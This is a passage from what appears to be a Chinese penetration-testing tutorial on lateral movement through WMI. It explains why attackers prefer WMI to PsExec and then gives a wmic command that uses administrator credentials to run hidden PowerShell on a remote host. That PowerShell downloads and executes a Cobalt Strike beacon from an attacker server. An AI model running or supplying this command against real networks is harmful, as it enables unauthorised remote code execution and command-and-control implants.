 

若出现下图情况，那么很可能目标服务器安装了杀软

![image-20230902163759713](内网横向移动/image-20230902163759713.png)



# WMI横移

## WMI介绍

WMI是微软在发布Powershell之前用于管理Windows系统的核心数据库工具。它的架构类似于数据库，并使用DCOM或WinRM协议来操作。随着PsExec在内网中受到严格监控，并被许多反病毒厂商列为黑名单，黑客开始转向WMI来进行横向移动。值得注意的是，Windows操作系统默认不会在日志中记录WMI操作，这导致了许多APT开始使用WMI作为攻击手段。

WMIC是WMI的扩展，它提供了从命令行接口及批处理脚本执行系统管理的能力。简而言之，wmic即wmic.exe，位于Windows目录中，是一个命令行工具。WMIC支持两种执行模式：交互模式和非交互模式。总的来说，WMI是Windows的核心管理技术。



## WMI横移命令

如下命令实现在远程计算机上创建并运行一个新进程，换句话说，即在指定的远程节点上执行一个Powershell命令，以此实现CS上线(注意：普通用户也能执行)

```
shell wmic /NODE:10.10.10.10 /user:administrator /password:qQ123456 PROCESS call
create "powershell.exe -nop -w hidden -c \"IEX ((new-object
net.webclient).downloadstring('http://10.10.10.3:8000/beacon.ps1'))\""
```

![image-20230903111534237](内网横向移动/image-20230903111534237.png)
